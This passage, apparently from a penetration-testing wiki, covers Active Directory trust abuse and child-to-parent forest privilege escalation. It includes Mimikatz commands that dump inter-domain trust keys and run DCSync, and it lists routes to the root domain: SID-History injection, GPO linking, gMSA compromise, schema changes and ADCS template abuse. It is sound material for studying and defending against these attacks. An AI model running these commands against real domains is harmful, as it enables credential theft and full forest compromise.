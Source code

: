 * They can be added to **local groups** on individual machines, i.e. the local “Administrators” group on a server.
* They can be added to **groups in the foreign domain**. There are some caveats depending on trust type and group scope, described shortly.
* They can be added as principals in an **access control list**, most interesting for us as principals in **ACEs** in a **DACL**. For more background on ACLs/DACLs/ACEs, check out the “[An ACE Up The Sleeve](https://specterops.io/assets/resources/an\_ace\_up\_the\_sleeve.pdf)” whitepaper.

### Child-to-Parent forest privilege escalation

```
Get-DomainTrust

SourceName      : sub.domain.local    --> current domain
TargetName      : domain.local        --> foreign domain
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST       --> WITHIN_FOREST: Both in the same forest
TrustDirection  : Bidirectional       --> Trust direction (2ways in this case)
WhenCreated     : 2/19/2021 1:28:00 PM
WhenChanged     : 2/19/2021 1:28:00 PM
```


There are **2 trusted keys**, one for _Child --> Parent_ and another one for _Parent_ --> _Child_.\
You can the one used by the current domain them with:

```bash
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```


#### SID-History Injection

Escalate as Enterprise admin to the child/parent domain abusing the trust with SID-History injection:


[sid-history-injection.md](sid-history-injection.md)


#### Exploit writeable Configuration NC

The Configuration NC is the primary repository for configuration information for a forest and is replicated to every DC in the forest. Additionally, every writable DC (not read-only DCs) in the forest holds a writable copy of the Configuration NC. Exploiting this require running as SYSTEM on a (child) DC.

It is possible to compromise the root domain in various ways. Examples:

* [Link GPO to to root DC site](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)
* [Compromise gMSA](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)
* [Schema attack](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-6-schema-change-trust-attack-from-child-to-parent)
* Exploit ADCS - Create/modify certificate template to allow authentication as any user (e.g. Enterprise Admins)
